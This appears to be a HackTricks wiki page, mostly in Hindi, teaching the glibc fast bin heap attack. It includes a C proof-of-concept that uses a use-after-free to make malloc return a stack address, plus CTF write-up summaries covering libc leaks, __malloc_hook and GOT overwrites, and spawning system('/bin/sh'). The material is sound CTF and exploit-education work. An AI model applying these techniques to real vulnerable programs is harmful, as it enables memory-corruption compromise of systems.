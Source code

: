 # Fast Bin Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

फास्ट बिन के बारे में अधिक जानकारी के लिए इस पृष्ठ को देखें:

{% content-ref url="bins-and-memory-allocations.md" %}
[bins-and-memory-allocations.md](bins-and-memory-allocations.md)
{% endcontent-ref %}

चूंकि फास्ट बिन एक सिंगली लिंक्ड लिस्ट है, इसलिए अन्य बिनों की तुलना में सुरक्षा बहुत कम होती है और बस **एक फ्रीड फास्ट बिन** चंक में एक पते को **संशोधित करना** पर्याप्त है ताकि **बाद में किसी भी मेमोरी पते पर एक चंक आवंटित किया जा सके**।

सारांश के रूप में: 

{% code overflow="wrap" %}
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
{% endcode %}

आप एक बहुत अच्छी तरह से समझाई गई कोड में पूरा उदाहरण [https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html) पर पा सकते हैं:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
puts("Today we will be discussing a fastbin attack.");
puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

puts("Let's start, we will allocate three chunks of size 0x30\n");
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);


printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

int stackVar = 0x55;

printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

printf("Chunk 0: %s\n", (char *)ptr0);
printf("Chunk 1: %s\n", (char *)ptr1);
printf("Chunk 2: %s\n\n", (char *)ptr2);

printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

free(ptr0);
free(ptr1);
free(ptr2);

printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

*ptr1 = (unsigned long)((char *)&stackVar);

printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(0x30);
ptr4 = malloc(0x30);
ptr5 = malloc(0x30);

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```
{% hint style="danger" %}
यदि **`global_max_fast`** के मान को एक बड़े नंबर से ओवरराइट करना संभव है, तो यह बड़े आकार के फास्ट बिन चंक्स उत्पन्न करने की अनुमति देता है, संभावित रूप से उन परिदृश्यों में फास्ट बिन हमले करने की अनुमति देता है जहाँ पहले यह संभव नहीं था। यह स्थिति [large bin attack](large-bin-attack.md) और [unsorted bin attack](unsorted-bin-attack.md) के संदर्भ में उपयोगी है।
{% endhint %}

## उदाहरण

* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html)**:**
* चंक्स आवंटित करना, उन्हें मुक्त करना, उनके सामग्री को पढ़ना और उन्हें भरना (एक ओवरफ्लो भेद्यता के साथ) संभव है।
* **सूचना लीक के लिए चंक को समेकित करना**: तकनीक मूल रूप से ओवरफ्लो का दुरुपयोग करके एक नकली `prev_size` बनाने के लिए है ताकि एक पिछले चंक्स को एक बड़े में रखा जा सके, इसलिए जब बड़े चंक्स को आवंटित किया जाता है जिसमें एक और चंक होता है, तो इसके डेटा को प्रिंट करना और libc के लिए एक पता लीक करना संभव है (`main_arena+88`)।
* **malloc हुक को ओवरराइट करना**: इसके लिए, और पिछले ओवरलैपिंग स्थिति का दुरुपयोग करते हुए, 2 चंक्स को एक ही मेमोरी की ओर इशारा करते हुए प्राप्त करना संभव था। इसलिए, दोनों को मुक्त करना (सुरक्षाओं से बचने के लिए बीच में एक और चंक को मुक्त करना) यह संभव था कि फास्ट बिन में एक ही चंक 2 बार हो। फिर, इसे फिर से आवंटित करना संभव था, अगले चंक के पते को `__malloc_hook` से थोड़ा पहले इंगित करने के लिए ओवरराइट करना (ताकि यह एक पूर्णांक की ओर इशारा करे जिसे malloc एक मुक्त आकार मानता है - एक और बायपास), इसे फिर से आवंटित करना और फिर एक और चंक आवंटित करना जो malloc हुक के लिए एक पता प्राप्त करेगा।\
अंत में, वहाँ एक **one gadget** लिखा गया था।
* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html)**:**
* एक हीप ओवरफ्लो और उपयोग के बाद मुक्त और डबल फ्री है क्योंकि जब एक चंक मुक्त होता है तो इसे पुनः उपयोग और पुनः मुक्त करना संभव है।
* **Libc सूचना लीक**: बस कुछ चंक्स को मुक्त करें और उन्हें मुख्य एरेना स्थान के एक भाग के लिए एक पता मिलेगा। चूंकि आप मुक्त किए गए पointers को पुनः उपयोग कर सकते हैं, बस इस पते को पढ़ें।
* **फास्ट बिन हमला**: आवंटनों के सभी पointers एक एरे में संग्रहीत होते हैं, इसलिए हम कुछ फास्ट बिन चंक्स को मुक्त कर सकते हैं और अंतिम में पते को इस पointers के एरे से थोड़ा पहले इंगित करने के लिए ओवरराइट कर सकते हैं। फिर, समान आकार के कुछ चंक्स आवंटित करें और हमें पहले वैध एक मिलेगा और फिर नकली एक जो पointers के एरे को शामिल करेगा। हम अब इस आवंटन पointers को ओवरराइट कर सकते हैं ताकि `free` का GOT पता `system` की ओर इंगित करे और फिर चंक 1 में `"/bin/sh"` लिखें ताकि फिर `free(chunk1)` को कॉल किया जा सके जो इसके बजाय `system("/bin/sh")` को निष्पादित करेगा।
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html)
* एक और उदाहरण एक बाइट ओवरफ्लो का दुरुपयोग करके चंक्स को असंरचित बिन में समेकित करना और एक libc सूचना लीक प्राप्त करना और फिर malloc हुक को एक one gadget पते के साथ ओवरराइट करने के लिए फास्ट बिन हमले को निष्पादित करना।
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html)
* एक सूचना लीक के बाद असंरचित बिन का दुरुपयोग करते हुए UAF के साथ libc पता और एक PIE पता लीक किया गया, इस CTF का शोषण एक फास्ट बिन हमले का उपयोग करके एक चंक को उस स्थान पर आवंटित करने के लिए किया गया जहाँ नियंत्रित चंक्स के लिए पointers स्थित थे ताकि कुछ पointers को ओवरराइट करना संभव हो सके और GOT में एक one gadget लिखना।
* आप एक फास्ट बिन हमला असंरचित बिन हमले के माध्यम से दुरुपयोग करते हुए पा सकते हैं:
* ध्यान दें कि फास्ट बिन हमले करने से पहले libc/heap पते लीक करने के लिए फ्री-लिस्ट का दुरुपयोग करना सामान्य है (जब आवश्यक हो)।
* [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
* हम केवल `0x100` से बड़े आकार के चंक्स आवंटित कर सकते हैं।
* एक असंरचित बिन हमले का उपयोग करके `global_max_fast` को ओवरराइट करें (ASLR के कारण 1/16 बार काम करता है, क्योंकि हमें 12 बिट्स को संशोधित करने की आवश्यकता है, लेकिन हमें 16 बिट्स को संशोधित करना चाहिए)।
* चंक्स के एक वैश्विक एरे को संशोधित करने के लिए फास्ट बिन हमला। यह एक मनमाना पढ़ने/लिखने की प्राइमिटिव देता है, जो GOT को संशोधित करने और कुछ कार्यों को `system` की ओर इंगित करने की अनुमति देता है।

{% content-ref url="unsorted-bin-attack.md" %}
[unsorted-bin-attack.md](unsorted-bin-attack.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें फॉलो करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके।**

</details>
{% endhint %}
